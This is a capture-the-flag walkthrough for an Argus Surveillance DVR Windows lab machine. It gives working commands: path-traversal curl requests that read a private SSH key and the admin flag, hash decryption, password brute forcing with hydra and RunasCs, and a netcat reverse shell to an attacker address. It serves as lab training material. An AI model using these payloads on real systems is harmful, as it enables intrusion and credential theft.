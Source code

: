 # DVR4

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.201.179
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-08 14:10 +08
Nmap scan report for 192.168.201.179
Host is up (0.17s latency).
Not shown: 65522 closed tcp ports (conn-refused)
PORT      STATE SERVICE
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8080/tcp  open  http-proxy
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

SSH is open on this Windows machine, so let's take note of that.&#x20;

### Argus Surveillance --> LFI SSH Key

Port 8080 hosted an Argus Surveillance instance:

<figure><img src="../../../.gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

There are quite a few exploits for this software:

```
$ searchsploit argus                         
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Argus Surveillance DVR 4.0 - Unquoted Service Path         | windows/local/50261.txt
Argus Surveillance DVR 4.0 - Weak Password Encryption      | windows/local/50130.py
Argus Surveillance DVR 4.0.0.0 - Directory Traversal       | windows_x86/webapps/45296.txt
Argus Surveillance DVR 4.0.0.0 - Privilege Escalation      | windows_x86/local/45312.c
----------------------------------------------------------- ---------------------------------
```

The LFI one looks the easiest to exploit, and it involves using `curl`:

{% code overflow="wrap" %}
```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FWindows%2Fsystem.ini&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

; for 16-bit app support
[386Enh]
woafont=dosapp.fon
EGA80WOA.FON=EGA80WOA.FON
EGA40WOA.FON=EGA40WOA.FON
CGA80WOA.FON=CGA80WOA.FON
CGA40WOA.FON=CGA40WOA.FON

[drivers]
wave=mmdrv.dll
timer=timer.drv

[mci]
```
{% endcode %}

It works, so now we just need to find out what to read. I know that SSH is open, so we should be looking for a SSH private key of some user. On the website, we can view the users to see 2:

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

`viewer` is one them, and we can try to read their private key:

```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2Fviewer%2F.ssh%2Fid_rsa&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAuuXhjQJhDjXBJkiIftPZng7N999zteWzSgthQ5fs9kOhbFzLQJ5J
Ybut0BIbPaUdOhNlQcuhAUZjaaMxnWLbDJgTETK8h162J81p9q6vR2zKpHu9Dhi1ksVyAP
<TRUNCATED>
```

Using this, we can `ssh` into the machine as `viewer`:

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Password Decryption --> SYSTEM Shell

I tested the LFI in reading the administrator flag, and it actually worked:

{% code overflow="wrap" %}
```
$ curl "http://192.168.201.179:8080/WEBACCOUNT.CGI?OkBtn=++Ok++&RESULTPAGE=..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2FUsers%2FAdministrator%2FDesktop%2fproof.txt&USEREDIRECT=1&WEBACCOUNTID=&WEBACCOUNTPASSWORD="
<FLAG>
```
{% endcode %}

This means that the application is being run by the administrator instead of `viewer`. There were other exploits that we didn't use yet. I found that the Weak Password Encryption was one of them. This involved reading the password hash from the configuration files of Argus.&#x20;

```
C:\ProgramData\PY_Software\Argus Surveillance DVR>type DVRParams.ini
<TRUNCATED>
LoginName0=Administrator
Password0=ECB453D16069F641E03BD9BD956BFE36BD8F3CD9D9A8                                    
```

We can decrypt this hash easily using the script:

```
$ python3 50130.py 

#########################################
#    _____ Surveillance DVR 4.0         #
#   /  _  \_______  ____  __ __  ______ #
#  /  /_\  \_  __ \/ ___\|  |  \/  ___/ #
# /    |    \  | \/ /_/  >  |  /\___ \  #
# \____|__  /__|  \___  /|____//____  > #
#         \/     /_____/            \/  #
#        Weak Password Encryption       #
############ @deathflash1411 ############

[+] ECB4:1
[+] 53D1:4
[+] 6069:W
[+] F641:a
[+] E03B:t
[+] D9BD:c
[+] 956B:h
[+] FE36:D
[+] BD8F:0
[+] 3CD9:g
[-] D9A8:Unknown
```

The last character is unknown. When looking at the script, it doesn't seem to map special characters within the dictionary. In this case, we can create a wordlist of the special characters.&#x20;

```
$ cat /usr/share/seclists/Fuzzing/special-chars.txt > wordlist.txt
$ sed -i -e 's/^/14WatchD0g/' wordlist.txt
```

Afterwards, we can attempt to brute force the `ssh` access using `hydra`:

```
$ hydra -l administrator -P wordlist.txt 192.168.201.179 ssh
```

However, this didn't work for some reason, so maybe the administrator does not have SSH access. Instead, I brute forced the passwords one by one with `RunasCs.exe` to check which worked.&#x20;

Eventually one worked:

```
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g# whoami                               
[-] RunasCsException: CreateProcessWithLogonW failed with 1326                               
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g$ whoami                               
dvr4\administrator
```

Great! Now we just need to get a reverse shell. The exploits earlier have the `x86` tag, meaning that this is a 32-bit Windows computer and we should be using `nc32.exe` for a reverse shell.

Then, we just need to execute it:

```
C:\Windows\Tasks>.\runasc.exe Administrator 14WatchD0g$ "C:\Windows\Tasks\nc.exe -e cmd.exe 1
92.168.45.191 21"
```

<figure><img src="../../../.gitbook/assets/image (97).png" alt=""><figcaption></figcaption></figure>
